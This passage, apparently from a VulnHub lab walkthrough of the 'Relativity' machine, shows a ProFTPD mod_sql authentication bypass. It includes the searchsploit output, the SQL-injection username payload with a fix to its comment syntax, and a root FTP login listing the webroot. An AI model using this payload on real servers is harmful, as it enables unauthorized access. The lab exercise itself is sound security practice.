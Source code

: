 We cant login as anonymous, but we see several things on exploitdb that might be relevant for this version of ProFTPD. We can see its also running mod_sql as some kind of plugin. 

```bash
$ ftp 192.168.147.178
Connected to 192.168.147.178.
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.147.178:root): anonymous
331 Password required for anonymous.
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

After looking again at the searchsploit results we see a mod_sql exploit and check it out. Looks straightforward enough we can bypass authentication with a union injection on the username and login as whoever with no password.

```bash
$ searchsploit -m exploits/multiple/remote/32798.pl
  Exploit: ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection
      URL: https://www.exploit-db.com/exploits/32798
     Path: /usr/share/exploitdb/exploits/multiple/remote/32798.pl
File Type: ASCII text, with CRLF line terminators

Copied to: /root/labs/vulnhub/relativity/32798.pl
```
```bash
$user = "USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --";
$pass = '1';
```
That above payload from the exploit doesn't seem to work, we mess around and change the comment dashes -- to a # and it does work we're logged in. This might have something to do with MySQL expecting a space after the comment symbols, which also doesn't work if we try that as ProFTP most likely truncates it? So instead the # symbol is one way to avoid that issue.

```bash
$ ftp 192.168.147.178
Connected to 192.168.147.178.
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.147.178:root): root %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;#
331 Password required for root.
Password:
230 User root %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;# logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
ftp> 
```
Looks like its the webroot in there with that nice picture, what is that long ass hash? We visit it in the browser and get to some kind of menu based application with an interesting bio and some more pics of M.C. Escher.
